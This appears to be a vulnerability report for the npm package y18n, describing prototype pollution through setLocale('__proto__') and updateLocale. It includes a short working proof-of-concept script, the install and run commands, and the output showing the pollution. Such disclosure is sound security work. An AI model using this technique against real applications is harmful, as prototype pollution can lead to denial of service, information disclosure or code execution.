 # Description

`y18n` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
const y18n = require('y18n')();
var obj = {}
console.log("Before : " + obj.polluted);
y18n.setLocale('__proto__');
y18n.updateLocale({polluted: 'Yes! Its Polluted'});
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i y18n # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
